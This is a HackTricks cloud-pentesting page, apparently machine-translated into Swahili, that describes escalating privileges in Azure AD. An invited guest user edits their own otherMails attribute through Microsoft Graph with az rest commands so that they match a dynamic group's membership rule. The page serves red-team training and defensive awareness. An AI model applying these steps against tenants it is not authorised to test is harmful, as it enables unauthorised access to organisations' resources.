 # Az - Dynamic Groups Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Dynamic groups** ni vikundi ambavyo vina seti ya **sheria** zilizowekwa na watumiaji wote au **vifaa** vinavyolingana na sheria hizo vinajumuishwa kwenye kundi. Kila wakati **sifa** za mtumiaji au kifaa zinapobadilishwa, sheria za dynamic zinarejelewa. Na wakati **sheria mpya** inaundwa, vifaa vyote na watumiaji vinakaguliwa.

Vikundi vya dynamic vinaweza kuwa na **Azure RBAC roles** zilizotolewa kwao, lakini **si rahisi** kuongeza **AzureAD roles** kwa vikundi vya dynamic.

Kipengele hiki kinahitaji leseni ya Azure AD premium P1.

## Privesc

Kumbuka kwamba kwa kawaida mtumiaji yeyote anaweza kuwalika wageni katika Azure AD, hivyo, ikiwa sheria ya kundi la dynamic inatoa **idhini** kwa watumiaji kulingana na **sifa** ambazo zinaweza kuwekwa kwa **mgeni** mpya, inawezekana **kuunda mgeni** mwenye sifa hizi na **kuinua mamlaka**. Pia inawezekana kwa mgeni kusimamia wasifu wake mwenyewe na kubadilisha sifa hizi.

Pata vikundi vinavyoruhusu Uanachama wa Dynamic: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

* **Mfano wa sheria**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Maelezo ya sheria**: Mtumiaji yeyote wa Mgeni mwenye barua pepe ya pili yenye maandiko 'security' ataongezwa kwenye kundi

Kwa barua pepe ya mtumiaji wa Mgeni, kubali mwaliko na angalia mipangilio ya sasa ya **mtumiaji huyo** katika [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Kwa bahati mbaya, ukurasa haukuruhusu kubadilisha thamani za sifa hivyo tunahitaji kutumia API:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Marejeleo

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
